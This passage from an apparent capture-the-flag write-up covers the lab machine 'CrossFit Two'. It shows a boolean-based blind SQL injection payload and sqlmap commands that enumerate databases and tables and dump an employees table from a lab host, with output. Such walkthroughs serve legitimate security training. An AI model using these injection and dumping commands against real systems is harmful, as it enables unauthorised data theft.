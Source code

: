 ```php
echo $client->receive();
$client->close();

?>
```

![](/assets/img/posts/crossFitTwo/websocket-client-server.png)

### Boolean based Blind SQL Injection

* Found injection with payload: `1 AND 1=1`

And now we can use sqlmap to automate sql injection.

Some sqlmap flags to make scan more accurate based on known information.
```bash
--technique=TECH..  SQL injection techniques to use (default "BEUSTQ")
--string=STRING     String to match when query is evaluated to True
```

```bash
#retrieving database names
sqlmap -u 'http://10.10.15.71:8000/websocket-client.php?id=1' --batch --string='Good news!' --technique=B --threads=10 --dbms=mysql --dbs

available databases [3]:
[*] crossfit
[*] employees
[*] information_schema

#retrieving tables
sqlmap -u 'http://10.10.15.71:8000/websocket-client.php?id=1' --batch --string='Good news!' --technique=B --threads=10 --dbms=mysql -D employees --tables

Database: employees
[2 tables]
+----------------+
| employees      |
| password_reset |
+----------------+

#dump data
sqlmap -u 'http://10.10.15.71:8000/websocket-client.php?id=1' --batch --string='Good news!' --technique=B --threads=10 --dbms=mysql -D employees -T employees --dump
```
